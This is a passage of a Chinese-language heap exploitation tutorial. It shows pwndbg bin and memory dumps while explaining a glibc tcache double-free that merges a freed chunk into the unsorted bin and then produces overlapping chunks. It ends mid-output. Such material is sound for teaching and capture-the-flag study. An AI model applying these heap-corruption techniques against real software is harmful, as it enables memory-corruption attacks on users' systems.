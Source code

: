 ```
empty
largebins
empty
pwndbg&gt; x/10gx 0x5555555599c0
0x5555555599c0: 0x0000000000000000      0x0000000000000221
0x5555555599d0: 0x00007ffff7fbcca0      0x00007ffff7fbcca0
0x5555555599e0: 0x0000000000000000      0x0000000000000000
0x5555555599f0: 0x0000000000000000      0x0000000000000000
0x555555559a00: 0x0000000000000000      0x0000000000000000
```

可以看到,此时被合并后的大chunk仍在unsortedbin 中且大小为0x221

现在让我们从tcache list中取出一个chunk来留下一个位置

```
pwndbg&gt; bins
tcachebins
0x110 [  6]: 0x5555555597b0 __ 0x5555555596a0 __ 0x555555559590 __ 0x555555559480 __ 0x555555559370 __ 0x555555559260 __ 0x0
```

现在我们再free一次a,为什么能成功呢?

因为我们的prev和a已经合并了,此时free list上并没有a的信息,因此我们可以再次free一次a

```
pwndbg&gt; bins
tcachebins
0x110 [  7]: 0x555555559ae0 __ 0x5555555597b0 __ 0x5555555596a0 __ 0x555555559590 __ 0x555555559480 __ 0x555555559370 __ 0x555555559260 __ 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x5555555599c0 __ 0x7ffff7fbcca0 (main_arena+96) __ 0x5555555599c0
smallbins
empty
largebins
empty
```

可以看到此时我们的a已经被链入free list中,属于tcache

现在我们的a既在tcache中,又在我们的unsorted bin的大chunk中

此时我们malloc b(0x120),系统就会从我们的unsorted bin中切出一块来给他,把剩下的留在unsorted bin中,也就意味着b会从之前prev的地方开始，并且和a有交集，也就是成功构造了overlapping

```
pwndbg&gt; bins
tcachebins
0x110 [  7]: 0x555555559ae0 __ 0x5555555597b0 __ 0x5555555596a0 __ 0x555555559590 __ 0x555555559480 __ 0x555555559370 __ 0x555555559260 __ 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
```